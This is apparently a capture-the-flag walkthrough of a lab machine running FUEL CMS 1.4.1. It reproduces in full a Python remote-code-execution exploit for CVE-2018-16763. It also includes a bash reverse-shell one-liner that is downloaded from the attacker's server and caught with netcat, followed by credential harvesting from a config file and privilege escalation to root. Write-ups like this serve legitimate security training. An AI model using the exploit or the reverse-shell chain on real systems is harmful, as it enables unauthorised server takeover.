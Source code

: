 After i started machine i scanned target_ip, with nmap, to see what i can get:

```
$ sudo nmap -A -Pn -v 10.10.165.48

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

After i get output of that scan i went to check them

in `robots.txt` i found nothing important but in main page i found admin password for `/fuel/`

admin, admin

After login i tried to add some php code to reverse shell, but fuel Cms did not support php, 
so it's made with affort to avoid such injections(Or maybe I'm not that good yet)
 

After that i could not find any solution to deal with it, so i go to look for expolits

[Exploit DB](https://www.exploit-db.com/)

i searched for fuel cms, and Boom i found it

i downloaded this version for python3 `2021-11-03	Fuel CMS 1.4.1 - Remote Code Execution (3)`

```
$ cat 50477.py                               
# Edxploit Title: Fuel CMS 1.4.1 - Remote Code Execution (3)
# Exploit Author: Padsala Trushal
# Date: 2021-11-03
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

#!/usr/bin/python3

import requests
from urllib.parse import quote
import argparse
import sys
from colorama import Fore, Style

def get_arguments():
        parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[0]} -u <url>',epilog=f'EXAMPLE - python3 {sys.argv[0]} -u http://10.10.165.48//')

        parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

        parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

        args = parser.parse_args()

        if len(sys.argv) <=2:
                parser.print_usage()
                sys.exit()

        return args


args = get_arguments()
url = args.url 

if "http" not in url:
        sys.stderr.write("Enter vaild url")
        sys.exit()

try:
   r = requests.get(url)
   if r.status_code == 200:
       print(Style.BRIGHT+Fore.GREEN+"[+]Connecting..."+Style.RESET_ALL)


except requests.ConnectionError:
    print(Style.BRIGHT+Fore.RED+"Can't connect to url"+Style.RESET_ALL)
    sys.exit()

while True:
        cmd = input(Style.BRIGHT+Fore.YELLOW+"Enter Command $"+Style.RESET_ALL)

        main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"

        r = requests.get(main_url)

        #<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

        output = r.text.split('<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">')
        print(output[0])
        if cmd == "exit":
                break
```
this is the python script which allows to use remote code execution

```
└─$ python3 50477.py -u http://10.10.165.48/
[+]Connecting...
Enter Command $
```
YUUP!! we connected.


after i got connected i use some commands to check my user permissions

```

Enter Command $ls /root
system

Enter Command $ls /root/system
system

Enter Command $which bash
system/bin/bash
```
as expected i dont have admin privilages. but i have user basic user privalages. It's enough to create and download a reverse shell script

i started my apache2 server `sudo systemctl start apache2` 

and created a rev.sh in /var/www/html/ directory

`bash -i >& /dev/tcp/<Your_tunel_IP>/4546 0>&1`--->rev.sh

And then i downloaded i script into fuel `cms server` basic priveleges is enough to do it
```
Enter Command $wget http://10.23.140.77/rev.sh

system

Enter Command $system

Enter Command $chmod +x rev.sh
system
```
it's installed successfuly and now before i decided to run `./run` i opened another terminal to listen to port 

`$nc -lvnp 4546`

and run the script
```
Enter Command $./rev.sh

```
Boom another terminal that i opened for listening port established connection now we can go and capture the flags

```
www-data@ubuntu:/var/www/html$ cd /home
cd /home
www-data@ubuntu:/home$ ks
ks
ks: command not found
www-data@ubuntu:/home$ ls
ls
www-data
www-data@ubuntu:/home$ cd www-data
cd www-data
www-data@ubuntu:/home/www-data$ ls
ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt
6470e394cbf6dab6a91682cc8585059b 
www-data@ubuntu:/home/www-data$ 
```
but as you can notice we still using web-shell so i dont have root privaleges

here is how we can open it `python -c “import pty;pty.spawn(‘/bin/bash’)”` 


Now i need to get flag from root folder, but before that i need root privileg to get access to it

```
www-data@ubuntu:/home$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/home$ ^Z
zsh: suspended  nc -lvnp 4546
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4546
                               ls
www-data

www-data@ubuntu:/home$ su root
Password: 
```
Yep! we did it, now to get password you look at `www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php`
```
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```
it was mentioned in main page.
 

```
root@ubuntu:/home# ls /root
root.txt
root@ubuntu:/home# cat root.txt
cat: root.txt: No such file or directory
root@ubuntu:/home# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d 
root@ubuntu:/home# 
```

